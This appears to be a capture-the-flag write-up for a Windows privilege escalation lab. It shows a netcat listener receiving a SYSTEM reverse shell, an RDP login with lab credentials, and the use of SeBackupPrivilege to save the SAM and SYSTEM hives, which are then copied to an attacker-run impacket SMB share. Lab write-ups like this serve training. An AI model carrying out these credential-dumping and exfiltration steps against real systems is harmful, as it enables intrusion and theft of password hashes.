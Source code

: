 If all was correctly set up, you should expect a shell with SYSTEM privileges:

```
Kali Linux

user@attackerpc$ nc -lvp 4442
Listening on 0.0.0.0 4442
Connection received on 10.10.175.90 49755
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>whoami
nt authority\system
```

Using any of the three methods discussed in this task, gain access to the Administrator's desktop and collect the flag. Don't forget to input the flag at the end of this task.

```
┌──(kali㉿kali)-[~]
└─$ xfreerdp /u:THMBackup /p:'CopyMaster555' /v:10.10.12.124 /size:90%

(cmd like administrator and the pass is CopyMaster555)
C:\Windows\system32>whoami
wprivesc2\thmbackup

C:\Windows\system32>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeBackupPrivilege             Back up files and directories  Disabled
SeRestorePrivilege            Restore files and directories  Disabled
SeShutdownPrivilege           Shut down the system           Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled

C:\Windows\system32>reg save hklm\system C:\Users\THMBackup\system.hive
The operation completed successfully.

C:\Windows\system32>reg save hklm\sam C:\Users\THMBackup\sam.hive
The operation completed successfully.

iniciar smb

──(kali㉿kali)-[~/Downloads]
└─$ mkdir share         
                                                                          
┌──(kali㉿kali)-[~/Downloads]
└─$ locate smbserver.py
/home/kali/Downloads/zerologon_learning/impacketEnv/bin/smbserver.py
/home/kali/Downloads/zerologon_learning/impacketEnv/lib/python3.10/site-packages/impacket/smbserver.py
/usr/lib/python3/dist-packages/impacket/smbserver.py
/usr/share/doc/python3-impacket/examples/smbserver.py
                                                                          
┌──(kali㉿kali)-[~/Downloads]
└─$ python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share

copy the sam and system

C:\Windows\system32>copy C:\Users\THMBackup\sam.hive \\10.11.81.220\public\
```